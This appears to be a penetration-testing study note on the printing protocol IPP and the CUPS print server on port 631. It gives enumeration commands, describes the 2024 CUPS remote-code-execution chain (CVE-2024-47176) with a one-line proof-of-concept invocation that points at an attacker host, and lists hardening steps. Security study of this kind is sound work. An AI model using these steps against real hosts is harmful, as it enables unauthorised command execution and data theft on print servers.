

# 86 - IPP / CUPS (Port 631) Pentesting

## 1. Executive Summary

IPP (Internet Printing Protocol, RFC 2910/2911) is the de-facto network-printing standard — it rides on **HTTP/1.1** (cleartext or TLS) on **TCP 631** (UDP 631 for discovery) and exposes a rich API to create jobs, query capabilities, and manage queues. It's also the management surface of **CUPS** on every Linux/Unix/macOS host. Exposing 631 leads to serious issues: information disclosure (printer/queue/user data), administrative abuse of CUPS, and the **2024 CUPS RCE chain (CVE-2024-47176 et al.)** where a crafted IPP/`cups-browsed` request adds a malicious printer (PPD) whose `foomatic-rip` command runs on the next print job → RCE.

## 2. Protocol Overview & Architecture

IPP messages are binary operations over HTTP POST to `/ipp/print` (or the CUPS admin at `/admin`). Get-Printer-Attributes (`0x000B`) enumerates capabilities; other ops create/cancel jobs and (if admin access) add printers. **cups-browsed** (UDP 631) auto-adds network-advertised printers — the entry point for the 2024 chain: an attacker advertises a printer with an attacker-controlled PPD, and printing executes the embedded command.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 631 <IP>
nmap -p 631 --script "cups-info,cups-queue-info,http-* and not http-brute" <IP>
# CUPS web UI
curl -s http://<IP>:631/printers/    # list printers
curl -s http://<IP>:631/admin        # admin surface
```

## 4. Exploitation Deep Dive

### 4.1 Information Disclosure
`Get-Printer-Attributes` + the CUPS web UI leak printers, queues, job history, and usernames — recon and sometimes document capture.

### 4.2 CUPS RCE Chain — CVE-2024-47176 (+47076/47175/47177)
`cups-browsed` listens on UDP 631 and trusts advertised printers. Send a crafted packet pointing CUPS at an attacker IPP server; CUPS fetches a malicious PPD; when a job prints, `foomatic-rip` executes the attacker's command:
```bash
# advertise a malicious printer to the target's cups-browsed, host evil PPD with FoomaticRIPCommandLine
python3 cups_rce_poc.py --target <IP> --lhost <ATT> --cmd 'id'
```
Requires a print job to trigger; high impact where printing is active.

### 4.3 Admin Abuse
If the CUPS admin is unauthenticated/weak, add printers/jobs or read configs directly.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- RCE via the CUPS chain → shell on the host (often lpadmin/print user → escalate).
- Document/queue capture; config + stored creds.

## 7. Defense & Hardening
1. Patch CUPS/cups-browsed (2024 CVEs); **disable cups-browsed** if unused.
2. Block UDP 631 from untrusted networks; restrict 631 to admins; require auth + TLS on the admin.
3. Don't expose CUPS to the internet; segment printers.

## 8. Chaining Opportunities
- RCE → **[[08 - Linux Privilege Escalation]]**.
- Printer-protocol siblings: **[[85 - LPD (Port 515) Pentesting]]**, **[[87 - PJL (Port 9100) Pentesting]]**.
- Reached via **[[80 - WS-Discovery (Port 3702) Pentesting]]** / **[[81 - mDNS (Port 5353) Pentesting]]** discovery.

## 9. Related Notes
- [[87 - PJL (Port 9100) Pentesting]]

## 10. Tools
`nmap` cups-* NSE, `curl`, CUPS RCE PoCs (CVE-2024-47176), raw IPP (Python).
